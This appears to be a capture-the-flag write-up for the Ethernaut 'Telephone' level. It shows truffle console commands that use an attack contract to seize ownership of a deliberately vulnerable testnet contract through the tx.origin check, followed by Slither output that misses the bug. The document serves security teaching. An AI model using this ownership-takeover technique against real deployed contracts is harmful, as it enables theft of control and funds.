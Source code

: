 # Telephone

[Telephone](https://ethernaut.openzeppelin.com/level/0x1ca9f1c518ec5681C2B7F97c7385C0164c3A22Fe)

Contract requires us to generate transaction for which `tx.origin != msg.sender`.

<BR />

## Live Attack
```BASH
truffle console --network goerli
```

```JS
//Identify the account index
// 0xCbB9660eA60B895443ef5001B968b6Ae4c0AaA18
accounts
sender = accounts[5]

telephone = await Telephone.at('0x345E615311dee8FF11889FF57ED615Db3905f776')
telephone.owner()
telephone.address

attack = await TelephoneAttack.deployed()
attack.target()
await attack.changeOwner({from: sender})

telephone.owner()
```

<BR />


## Vulnerability Testing Tools

This is a logical bug, so one can expect test tools not to catch it.

<BR />

### Slither

Not Detected

```BASH
slither ./contracts/Telephone.sol  --truffle-ignore-compile --exclude-optimization
```

```
Telephone.changeOwner(address)._owner (contracts/Telephone.sol#12) lacks a zero-check on :
                - owner = _owner (contracts/Telephone.sol#14)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#missing-zero-address-validation

Pragma version^0.8.0 (contracts/Telephone.sol#2) allows old versions
solc-0.8.9 is not recommended for deployment
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity

Parameter Telephone.changeOwner(address)._owner (contracts/Telephone.sol#12) is not in mixedCase
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#conformance-to-solidity-naming-conventions
./contracts/Telephone.sol analyzed (1 contracts with 76 detectors), 4 result(s) found
```